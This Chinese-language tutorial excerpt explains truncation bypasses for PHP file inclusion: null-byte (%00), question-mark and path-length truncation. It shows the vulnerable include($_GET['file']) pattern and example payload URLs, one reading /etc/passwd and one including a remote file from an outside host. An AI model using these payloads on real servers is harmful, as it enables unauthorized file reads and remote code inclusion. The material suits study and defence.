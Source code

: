 **前提**：
 PHP版本 < 5.3.4。
 PHP.ini内magic_quotes_gpc=off

**原理**：
 当程序流(program stream)遇到%00终止符(terminator)时会终止运行

```
如果代码从
<?php $file = $_GET ['file']; include($file); ?>
变为了
<?php $file = $_GET['file'] . '.php'; echo $file; include($file);
```

再直接包含会显示被包含文件名称而不是解析执行该文件内容，我们也可通过%00截断绕过。

```
%00截断(php版本小于5.3)
如：http://hello.com/1.php?a=2.txt%00
      http://hello.com/1.php?a=/etc/passwd%00
(需要 magic_quotes_gpc=off，PHP小于5.3.4有效)
%00截断目录遍历：
 如/var/www/%00
 (需要 magic_quotes_gpc=off，unix文件系统，比如FreeBSD，OpenBSD，NetBSD，Solaris)
```

#### 问号截断

问号后面相当于请求的参数，是一种伪截断

```
如 http://hello.com/test/123.php?f=http://remotehost.com/test/test.txt?
或者直接http://hello.com/test/123.php?f=http://remotehost.com/test/test.txt?
(test.txt内容为phpinfo代码)
```

#### 长度截断

**条件**：windows OS，点号需要长于256；linux OS 长于4096

```php
windows下256个字节，linux下4096个字节时会达到最大值，最大长度之后的字符会被丢弃，用./构造长度如：
./././././././././././././././././abc
```

#### 英文(.) 反斜杠(/) 截断

**条件**：windows OS，点号需要长于256

```php
?filename=test.jpg......................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................
?filename=test.jpg///////////////////////////////////////////////////////////////////////////////////////////////
```
